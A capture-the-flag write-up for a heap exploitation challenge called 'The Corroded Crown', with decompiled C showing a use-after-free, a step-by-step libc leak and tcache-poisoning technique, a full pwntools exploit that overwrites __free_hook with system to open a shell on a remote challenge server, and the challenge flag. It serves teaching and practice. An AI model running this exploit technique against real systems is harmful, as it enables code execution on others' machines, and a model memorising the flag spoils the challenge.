


## Challenge Description

```
When the Signet shattered, Crownspire's oaths didn't die. They got imitated. Houses started turning out claims so immaculate they felt wrong in the hand, too perfect and too eager to be believed. The Corroded Crown was the old forge where the Signet's fragments were first shaped, a sanctified mechanism of authority now rusted and corrupted. Its relics still carry the old geometry, but the tolerances are off. Perfect face, wrong spine. Rin has found her way into the forge's service throat. The locks here are still called "sanctified," but she knows the tell by now. Someone has been refitting these holy mechanisms with new tolerances, quietly changing who gets let in once panic has everyone begging at the door. She isn't here to smash the system. She's here to make it accept the wrong truth.
```

---

## Initial Recon

```
$ pwn checksec corroded_crown
[*] '/root/CTF/HTB/CA2026/pwn/The_corroded_crown/challenge/corroded_crown'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    RUNPATH:    b'./glibc/'
    Stripped:    No
```

Full RELRO, PIE, and a stack canary are enabled. The stack appears to be executable, but this is not used during the exploitation.

The bundled libc is version 2.31:

```
$ strings glibc/libc.so.6 | grep "GLIBC"
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.17) stable release version 2.31.
```

Running the binary presents a menu with four options (forge, inscribe, inspect, destroy), which indicates a possible heap exploitation challenge:



---

## Decompiled Functions

### forge_relic (malloc)

```c
void forge_relic(void)
{
  long canary;
  uint index;
  int size;
  void *buffer;
  long in_FS_OFFSET;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\n[*] The forge roars to life. Molten memory takes shape...");
  printf("[?] Choose a shelf for the new relic (index): ");
  index = read_int();
  printf("[?] How much metal shall we shape? (size): ");
  size = read_int();
  if (((int)index < 0) || (0x3f < (int)index)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
    exit(0x520);
  }
  if (size < 0) {
    fwrite("[ERROR] Invalid size\n",1,0x15,stderr);
    exit(0x520);
  }
  if (relic[(long)(int)index * 0x10 + 0xc] == '\0') {
    buffer = malloc((long)size);
    *(void **)(relic + (long)(int)index * 0x10) = buffer;
    *(int *)(relic + (long)(int)index * 0x10 + 8) = size;
    relic[(long)(int)index * 0x10 + 0xc] = 1;
    printf("[+] The relic has been forged and placed upon shelf %d.\n",(ulong)index);
  }
  else {
    puts("[!] That shelf already holds a relic. The forge refuses.");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Allocates a buffer via `malloc` with a user-chosen size and stores it in the `relic` array at the chosen index.

### inspect_relic (read)

```c
void inspect_relic(void)
{
  long canary;
  uint index;
  long in_FS_OFFSET;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\n[*] You examine the relic\'s markings...");
  printf("[?] Which relic shall be inspected? (index): ");
  index = read_int();
  if ((-1 < (int)index) && ((int)index < 0x40)) {
    printf("[*] Relic [%d]: ",(ulong)index);
    write(1,*(void **)(relic + (long)(int)index * 0x10),
          (long)*(int *)(relic + (long)(int)index * 0x10 + 8));
    putchar(10);
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
      __stack_chk_fail();
    }
    return;
  }
  fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
  exit(0x520);
}
```

Prints the contents of the buffer at the given index using `write` with the stored size.

### inscribe_relic (write)

```c
void inscribe_relic(void)
{
  long canary;
  int index;
  ssize_t bytes_read;
  long in_FS_OFFSET;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\n[*] You press the seal onto the relic\'s surface...");
  printf("[?] Which relic shall be inscribed? (index): ");
  index = read_int();
  if ((index < 0) || (0x3f < index)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
    exit(0x520);
  }
  printf("[?] Press your inscription into the metal (%d bytes):\n",
         (ulong)*(uint *)(relic + (long)index * 0x10 + 8));
  bytes_read = read(0,*(void **)(relic + (long)index * 0x10),
               (long)*(int *)(relic + (long)index * 0x10 + 8));
  if (bytes_read == 0) {
    _exit(0);
  }
  puts("[+] The inscription has been pressed into the metal.");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Reads user input into the buffer at the given index, up to the stored size.

### destroy_relic (free)

```c
void destroy_relic(void)
{
  long canary;
  int index;
  long in_FS_OFFSET;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\n[*] The relic is cast into the furnace...");
  printf("[?] Which relic shall be destroyed? (index): ");
  index = read_int();
  if ((index < 0) || (0x3f < index)) {
    fwrite("[ERROR] Invalid index\n",1,0x16,stderr);
    exit(0x520);
  }
  if (relic[(long)index * 0x10 + 0xc] == '\x01') {
    free(*(void **)(relic + (long)index * 0x10));
    relic[(long)index * 0x10 + 0xc] = 0;
    puts("[!] The relic crumbles to ash. The mark lingers.");
  }
  else {
    puts("[!] That shelf is empty. There is nothing to destroy.");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Frees the buffer and clears the `in_use` flag. Only frees if the slot is marked as in use.

---

## Vulnerability 

### Use-After-Free

`destroy_relic` calls `free()` and clears the `in_use` flag, but does not NULL out the pointer or the size field:

```c
free(*(void **)(relic + (long)index * 0x10));
relic[(long)index * 0x10 + 0xc] = 0;
```

Neither `inscribe_relic` nor `inspect_relic` check the `in_use` flag, they only validate the index and operate directly on whatever pointer remains. This means a freed chunk can still be read from and written to.

---

## Exploitation

### Libc Leak

Since glibc 2.31 has tcache bins and `__free_hook` / `__malloc_hook` are still active (only removed in 2.34), we can use tcache poisoning.

To leak libc, we fill the tcache bin (max 7 entries per size) with chunks larger than 0x80 (to avoid fastbins). The 8th freed chunk goes to the unsorted bin and receives `fd`/`bk` pointers into `main_arena`, which we can read via `inspect`.

One important detail: the chunk that goes to the unsorted bin cannot be adjacent to the top chunk, as it would consolidate with it. An extra chunk at the end serves as a guard to prevent this.

```python
for i in range(9):
    Forge(i, 0x91)

for i in range(8):
    Destroy(i)

libc_leak = Inspect(7)[:7].strip()
libc_base = u64(libc_leak.ljust(8, b"\x00")) - 0x1ecbe0
```

### Tcache Poisoning - `__free_hook` Overwrite

The tcache uses the `fd` pointer to track the next free chunk in the bin. By overwriting the `fd` of a freed chunk (via the UAF) with the address of `__free_hook`, the allocator will believe that `__free_hook` is the next available chunk. After two allocations of the same size, `malloc` returns a pointer to `__free_hook`, allowing us to write `system` to it.

After overwriting `__free_hook` with `system`, we inscribe `/bin/sh\x00` into another chunk. Calling `destroy` on that chunk executes `system("/bin/sh")` instead of `free()`.

```python
free_hook = libc_base + 0x1eee48
system = libc_base + 0x52290

Inscribe(6, p64(free_hook))

Forge(9, 0x91)
Forge(10, 0x91)  # Returns a chunk at __free_hook

Inscribe(10, p64(system))
Inscribe(9, b"/bin/sh\x00")
Destroy(9)  # Triggers system("/bin/sh")
```

---

## Full Exploit

```python
from pwn import *

io = remote("154.57.164.67", 30815)

def Forge(idx, size):
    io.sendlineafter(b">", b"1")
    io.sendlineafter(b"(index):", f"{idx}".encode())
    io.sendlineafter(b"(size):", f"{size}".encode())

def Inscribe(idx, data):
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"(index):", f"{idx}".encode())
    io.sendlineafter(b"bytes):", data)

def Inspect(idx):
    io.sendlineafter(b">", b"3")
    io.sendlineafter(b"(index):", f"{idx}".encode())
    io.recvuntil(b"]:")
    return io.recvline()

def Destroy(idx):
    io.sendlineafter(b">", b"4")
    io.sendlineafter(b"(index):", f"{idx}".encode())


# Libc Leak

for i in range(9):
    Forge(i, 0x91)

for i in range(8):
    Destroy(i)

libc_leak = Inspect(7)[:7].strip()
libc_base = u64(libc_leak.ljust(8, b"\x00")) - 0x1ecbe0
log.success(f"Libc base: {hex(libc_base)}")

# Tcache Poisoning

free_hook = libc_base + 0x1eee48
log.success(f"Free Hook: {hex(free_hook)}")
system = libc_base + 0x52290

Inscribe(6, p64(free_hook))

Forge(9, 0x91)
Forge(10, 0x91)

Inscribe(10, p64(system))
Inscribe(9, b"/bin/sh\x00")
Destroy(9)

io.interactive()
```

---

## Flag



```
HTB{th3_cr0wn_h45_b33n_p01s0n3d_1c6c3d6a4aa23697ac9b9f3df609d36f}
```
